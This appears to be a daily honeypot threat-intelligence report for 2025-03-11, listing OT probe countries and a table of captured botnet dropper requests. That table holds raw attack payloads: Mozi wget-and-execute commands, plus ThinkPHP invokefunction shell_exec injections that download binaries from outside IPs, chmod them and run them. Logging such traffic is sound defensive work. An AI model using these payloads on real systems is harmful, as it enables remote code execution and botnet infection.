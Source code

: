 ```yaml
---
title: "Report: 2025-03-11 "
date: 2025-03-11
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-11
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| RU               |                    |
| GH               |                    |
| FR               |                    |
| NL               |                    |
| US               |                    |
| CN               |                    |
| MX               |                    |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                       |
|:----------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 222.138.183.19  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                         |
| 45.164.177.69   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                         |
| 40.112.199.70   | GET /repository/annotate?rev=wget http://185.62.189.143/richard; curl -O http://185.62.189.143/richard; chmod +x richard; ./richard HTTP/1.1                                                                                                  |
| 204.76.203.18   | GET /wget HTTP/1.1                                                                                                                                                                                                                            |
| 103.199.200.160 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                         |
| 211.143.108.124 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                 |
| 220.179.1.88    | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]= 'wget http://5.255.115.56/x86_64 -O /tmp/.phpdsds; chmod 777 /tmp/.phpdsds; /tmp/.phpdsds php.x86' HTTP/1.1                 |
| 200.81.185.179  | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://157.230.218.54/bins/nine.x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1 |
| 188.166.227.239 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://152.42.234.215/bns/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1       |
